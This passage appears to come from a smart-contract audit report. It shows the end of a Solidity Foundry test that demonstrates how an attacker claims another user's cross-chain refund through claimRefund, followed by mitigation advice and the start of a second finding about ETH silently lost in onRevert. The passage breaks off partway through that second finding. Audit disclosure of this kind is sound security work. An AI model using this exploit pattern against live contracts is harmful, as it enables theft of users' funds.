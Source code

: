 ```solidity
    assertFalse(gatewayCrossChain.bots(attacker));

    // Verify attacker has no initial balance
    assertEq(token1Z.balanceOf(attacker), 0);

    // EXPLOIT: Attacker steals the refund
    vm.prank(attacker);
    gatewayCrossChain.claimRefund(externalId);

    // PROOF OF VULNERABILITY:
    // 1. Attacker receives the stolen funds
    assertEq(token1Z.balanceOf(attacker), refundAmount);

    // 2. Refund has been deleted (victim cannot recover)
    (bytes32 deletedExternalId,,,) = gatewayCrossChain.refundInfos(externalId);
    assertEq(deletedExternalId, bytes32(0)); // Refund no longer exists

    // 3. THE CORE ISSUE: Solana addresses can't receive ERC20 tokens on EVM chains
    // So the refund system exists to allow proper claiming mechanisms
    // But the vulnerability allows unauthorized claims
    address solanaUserEVM = address(bytes20(solAddress)); // Truncated representation
    assertEq(token1Z.balanceOf(solanaUserEVM), 0); // Never had tokens (can't on EVM)

    // 4. In a proper system, only authorized parties should claim non-EVM refunds
    // But the vulnerability bypasses all security checks

    console.log("=== VULNERABILITY DEMONSTRATED ===");
    console.log("Refund amount:", refundAmount);
    console.log("Attacker balance after exploit:", token1Z.balanceOf(attacker));
    console.log("Solana user EVM representation balance:", token1Z.balanceOf(solanaUserEVM));
    console.log("Address length:", solAddress.length, "bytes (vulnerable because != 20)");
    console.log("=== RIGHTFUL OWNER CANNOT RECOVER FUNDS ===");
}
```

## Mitigation

- Validate address formats when constructing revert messages
- Ensure consistent address encoding across all chains
- Add length checks in `onRevert()` and `onAbort()`

# [M-1]

## Silent ETH Fund Loss in Cross-Chain Revert Mechanism

## Summary

The cross-chain transaction revert mechanism has an issue that causes permanent ETH fund loss through silent failure. When ETH transactions fail and require refunding to users, the `onRevert()` function incorrectly attempt to use ERC20 transfer semantics on the ETH address (`0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE`), resulting in a silent failure where:
